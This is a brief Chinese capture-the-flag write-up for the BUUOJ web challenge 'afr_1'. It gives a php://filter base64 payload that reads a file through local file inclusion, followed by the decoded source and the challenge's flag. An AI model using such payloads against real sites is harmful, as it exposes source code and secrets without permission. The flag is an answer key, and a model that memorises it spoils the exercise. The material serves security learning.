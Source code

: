 <center>afr_1</center>





[toc]





## afr_1

> [afr_1](https://buuoj.cn/challenges#[%E7%AC%AC%E4%B8%80%E7%AB%A0%20web%E5%85%A5%E9%97%A8]afr_1)也是php伪协议的题目





### 1.payload

> 可以去看上一题

```shell
?p=php://filter/read=convert.base64-encode/resource=flag
```

```js
// 解码
<?php
die('no no no');
//n1book{afr_1_solved}
```

